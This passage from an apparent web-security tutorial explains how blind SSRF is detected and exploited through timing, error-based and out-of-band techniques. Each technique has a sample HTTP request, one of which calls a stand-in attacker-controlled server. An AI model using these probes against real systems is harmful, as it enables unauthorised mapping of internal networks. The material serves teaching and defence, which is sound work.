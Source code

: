 ### How to detect and exploir blind SSRF vulnerability?

Malicious users can employ various techniques to detect and exploit blind SSRF vulnerabilities. Below are some of them.

#### Timing attacks

By measuring the time taken for the application to respond, a malicious user can infer whether the internal request was successful. For example, they might send a request to an internal service and introduce a delay in the response to see if the overall response time changes.

   ```http
   GET /fetch-data?url=http://internal-service:8080/some-endpoint?delay=5000 HTTP/1.1
   ```

#### Error-based attacks

Malicious users can send requests that are likely to produce errors, allowing them to infer information based on the application's behavior. For instance, they might request a non-existent resource on an internal service.

   ```http
   GET /fetch-data?url=http://internal-service:8080/nonexistent HTTP/1.1
   ```

   If the application handles this gracefully or provides specific error messages, the malicious user can gather information about the internal service.

#### Out-of-band channels

A common technique involves using an external service that the application interacts with, such as a web server under the control of the malicious user. By sending a request to this external service, the malicious user can observe the incoming requests to infer information about the internal network.

```http
GET /fetch-data?url=http://malicious-user-controlled-server.com/track?target=http://internal-service:8080 HTTP/1.1
```

The external server can log the requests, allowing the malicious user to determine if the internal service was contacted.

However, there might be one catch. It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied domain, but no subsequent HTTP request. This typically happens because the application attempted to make an HTTP request to the domain, which caused the initial DNS lookup, but the actual HTTP request was blocked by network-level filtering. It is relatively common for infrastructure to allow outbound DNS traffic, since this is needed for so many purposes, but block HTTP connections to unexpected destinations.

## Hidden attack surfaces for SSRF

Identifying hidden attack surfaces for SSRF vulnerabilities is crucial for effectively securing web applications. Malicious users often look for overlooked areas where SSRF can be exploited. Let's look at some methods to uncover these hidden attack surfaces.
